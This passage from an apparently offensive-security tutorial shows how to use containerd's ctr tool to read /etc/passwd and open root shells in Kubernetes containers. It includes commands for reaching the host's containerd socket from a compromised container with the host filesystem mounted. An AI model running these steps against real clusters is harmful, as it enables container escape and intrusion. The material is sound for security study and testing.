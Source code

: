 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

If we want an interactive shell into the container, we add the `-t` switch to allocate a TTY and run `/bin/bash` instead.

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io task exec -t --exec-id catpwd 3373c8e99b9381b150d30998203cbb6593f1e25b4c30a61f16669f9f8b5d8694 /bin/bash
root@springsaml-86df7bc9c5-zqgn8:/app# hostname
springsaml-86df7bc9c5-zqgn8
root@springsaml-86df7bc9c5-zqgn8:/app#
```

Now lets do the same in our `nginx` container that we created earlier.

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io task exec -t --exec-id catpwd nginx /bin/bash
root@kubecontainer:/# ls /host
bin  boot  dev	etc  home  lib	lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap	srv  swap.img  sys  tmp  usr  var
```

In the above, we see that the container is running as `root` and that the host filesystem is mounted to `/host`, just like we specified when we created it.


Now, while these particular examples of executing code in containers seemed to work in a very straightforward way in the above output, its worth diving into into some more detail of how this works because there are some details under the hood that can cause problems for us in some scenarios.

First of all, the `stdin`, `stdout` and `stderr` channels of the tasks/processes created in the container are NOT communicated with by means of the API itself, but instead are specified in the form of named pipe files that the calling application (in this case `ctr`) needs to create and read/write to/from. Whats more, when using `ctr`, the `ctr` tool and the `containerd` daemon need to use the same filenames for each of these pipes.  This is a problem when these two applications dont share the same root filesystem - for example when we are accessing the socket via the medium of a mounted host root filesystem. In these cases, to actually directly access these process handles directly using `ctr`, we need to utilise a shared section of the filesystem that both client and server can access via the same named path, and inform the `ctr` tool of this path using the `--fifo-dir` switch.

Lets take an example where we are running `ctr` from within a compromised container where the hosts root filesystem is mounted at `/host` in the container. In this case (assuming we dont just chroot within the container), the containerd socket is being accessed from the path `/host/run/containerd/containerd.sock`. To make an interactive shell like the example above work, we can create a path `/tmp/offsec` on the host filesystem (via creating `/host/tmp/offsec` in our container) and then symbolically link this path to the same path `/tmp/offsec` in the container. Then we exec the task pointing to `/host/run/containerd/containerd.sock` as the socket address and `/tmp/offsec` as the FIFO path.

An example of commands to achieve this would look something like the following:
```
$ mkdir /host/tmp/offsec
$ ln -s /host/tmp/offsec /tmp/offsec
$ ctr --address /host/run/containerd/containerd.sock -n k8s.io task exec -t --exec-id catpwd --fifo-dir /tmp/offsec  3373c8e99b9381b150d30998203cbb6593f1e25b4c30a61f16669f9f8b5d8694 /bin/bash
```
